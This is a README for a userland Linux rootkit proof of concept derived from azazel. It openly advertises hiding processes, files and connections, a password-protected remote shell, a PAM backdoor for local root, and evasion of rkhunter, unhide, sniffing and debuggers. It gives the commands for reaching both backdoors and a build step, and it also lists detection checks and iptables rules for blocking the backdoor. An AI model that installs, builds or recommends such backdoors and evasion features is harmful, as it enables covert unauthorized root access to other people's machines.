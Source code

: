 # Linux Rootkit POC

This rootkit runs in userland and manipulates system calls and critical functions to hide its presence and provide backdoors for unauthorized access.

**Why**? For fun...

**Disclaimer**

The author is in no way responsible for any illegal use of this software. It is provided as an educational proof of concept (poc) only. He is also not responsible for any damages or mishaps that may occur while using this software. Use it at your own risk.

This poc is based on: [azazel](https://github.com/chokepoint/azazel)

## Features

- Hides processes, files, directories and network connections
- Open remote terminal (plaintext) with password
- Add PAM backdoor for local root access
- Block some binaries to avoid analysis
- Hides from the rkhunter and unhide
- Avoids local sniffing
- Exit on debug

## Access remote backdoor

```sh
nc <IP> <PORT>
```
*enter the password!*

## Access local backdoor

```sh
sudo -u <USER> -s

export HIDE_THIS_SHELL=foobar // to be owner
```

## Update hash db 

```sh
make -f Makefile.rootkit update-hashdb
```

## Checks

- `sudo ss -antup`

- `sudo nmap -sV -p- -v <IP> --reason`

- `sudo tcpdump <PROTOCOL> port <PORT> -A`

- `sudo lsof -u <USER>`
- `sudo lsof -i :<PORT>`
- `sudo lsof -i <PROTOCOL>`
- `sudo lsof -p <PID>`

- `sudo unhide proc`
- `sudo unhide sys`

- `sudo rkhunter --update && sudo rkhunter --check`

- `sudo ps aux | grep shellserver`

- `sudo strace -p <PID>`

- `sudo cat /proc/net/tcp`
- `sudo cat /proc/net/tc6`

- `sudo w`

- `sudo last`

## Block remote backdoor

- `sudo iptables -A INPUT -p tcp --dport <PORT> -j DROP`

## Unblock remote backdoor

- `sudo iptables -L -v -n --line-numbers`
- `sudo iptables -D INPUT <NUM>`

